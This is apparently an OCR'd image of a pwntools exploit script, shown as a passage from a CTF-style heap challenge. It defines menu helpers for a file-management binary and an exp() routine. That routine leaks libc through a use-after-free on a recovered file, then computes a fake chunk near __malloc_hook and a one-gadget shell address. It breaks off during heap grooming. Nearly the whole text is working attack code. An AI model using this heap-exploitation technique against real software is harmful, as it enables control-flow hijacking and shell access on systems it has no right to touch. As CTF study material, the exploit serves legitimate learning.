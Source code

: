 ```py
    p.recvuntil('file size: \n')
    p.sendline(str(file_size))
    p.recvuntil('changed!!\n')
    p.sendline(is_changed)
    p.recvuntil('input your new file name: ')
    p.send(new_file_name)
    p.recvuntil('Content: \n')
    p.sendline(content)


def ShowFile(dir_name,file_name):
    p.recvuntil('Your choice: \n')
    p.sendline('3')
    p.recvuntil('input directory: \n')
    p.sendline(dir_name)
    p.recvuntil('input filename: \n')
    p.sendline(file_name)

def DeleteFile(dir_name,file_name):
    p.recvuntil('Your choice: \n')
    p.sendline('4')
    p.recvuntil('input directory: \n')
    p.sendline(dir_name)
    p.recvuntil('input filename: \n')
    p.sendline(file_name)

def RecoverFile(dir_name,file_name):
    p.recvuntil('Your choice: \n')
    p.sendline('6')
    p.recvuntil('input directory: \n')
    p.sendline(dir_name)
    p.recvuntil('input filename: \n')
    p.sendline(file_name)

def exp():

    #leak libc
    CreateDir('1')
    CreateFileN('1','a',0x88,'a')#0
    CreateFileN('1','c',0x88,'a'*0x17)#2
    DeleteFile('1','a')

    RecoverFile('1','a')

    ShowFile('1','a')

    p.recvuntil('file content: ')
    libc_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 88 - offset
    main_arena = libc_base + 88 + offset
    fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
    shell_addr = libc_base + gadgets[1]
    log.success('libc base => ' + hex(libc_base))

    CreateFileN('1','e',0x38,'a')#4
    CreateFileN('1','f',0x48,'a')#5
    CreateFileN('1','g',0x68,'a'*0x47)#6
    CreateFileN('1','h',0x68,'a'*0x47)#7
    CreateFileN('1','i',0x48,'a'*0x47)#8
    CreateFileN('1','j',0x48,'a'*0x47)#9
    CreateFileN('1','k',0x20,'a'*0x47)#10
    for i in range(4):
        CreateFileN('1',str(i+5),0x48,'a')
    DeleteFile('1','g')
```